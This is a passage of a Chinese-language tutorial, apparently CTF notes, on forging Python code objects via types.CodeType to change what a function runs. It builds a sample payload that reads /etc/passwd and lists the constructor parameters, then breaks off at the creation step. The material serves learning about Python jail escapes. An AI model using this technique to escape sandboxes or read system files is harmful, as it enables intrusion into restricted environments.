 假设存在如下的一个函数. 
```py
def get_flag(some_input):
    var1=1
    var2="secretcode"
    var3=["some","array"]
    def calc_flag(flag_rot2):
        return ''.join(chr(ord(c)-2) for c in flag_rot2)
    if some_input == var2:
        return calc_flag("VjkuKuVjgHnci")
    else:
        return "Nope"
```
我们可以通过 `get_flag.__code__` 获取其代码对象. 代码对象包含了关于代码的所有信息, 例如 co_code 属性存储了字节码信息, 因此修改这个字节码就可以达到修改函数执行的目的, 但需要注意的是，python 可以将某个函数的 `__code__` 对象整个进行修改。仅仅修改其中的子属性是不行的。如下所示, python 会抛出异常.
```py
>>> get_flag.__code__.co_code
b'\x97\x00d\x01}\x01d\x02}\x02d\x03d\x04g\x02}\x03d\x05\x84\x00}\x04|\x00|\x02k\x02\x00\x00\x00\x00r\x0b\x02\x00|\x04d\x06\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00d\x07S\x00'
>>> get_flag.__code__.co_code = 1
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: attribute 'co_code' of 'code' objects is not writable
```

这种情况下,我们需要构造一个新的代码对象并主动执行.具体步骤如下：

1. 第一步，本地构造 payload
    ```py
    def read():
        return print(open("/etc/passwd",'r').read())
    ```
2. 获取创建代码对象所需的参数, 通过 help 或者 `__doc__` 属性进行获取, 不同的版本有所差异， 我在本地测试时版本为 python 3.11.2，此时 code 需要传入 17 个参数，且不支持关键字传递。
   ```py
    >>>> import types
    >>> help(types.CodeType)
    code(argcount, posonlyargcount, kwonlyargcount, nlocals, stacksize, flags, codestring, constants, names, varnames, filename, name, qualname, firstlineno, linetable, exceptiontable, freevars=(), cellvars=(), /)
   ```
   
3. 参数赋值。获取到所需的参数之后，我们可以将这些参数先保存在变量中。
   ```py
    code = read.__code__

    argcount = code.co_argcount
    posonlyargcount = code.co_posonlyargcount
    kwonlyargcount = code.co_kwonlyargcount
    nlocals = code.co_nlocals
    stacksize = code.co_stacksize
    flags = code.co_flags
    codestring = code.co_code
    constants = code.co_consts
    names = code.co_names
    varnames = code.co_varnames
    filename = code.co_filename
    name = code.co_name
    qualname = code.co_qualname
    firstlineno = code.co_firstlineno
    linetable = code.co_linetable
    exceptiontable = code.co_exceptiontable
    freevars = code.co_freevars
    cellvars = code.co_cellvars
   ```
4. 创建代码对象。创建代码对象需要调用 types.CodeType。
   ```py
   ```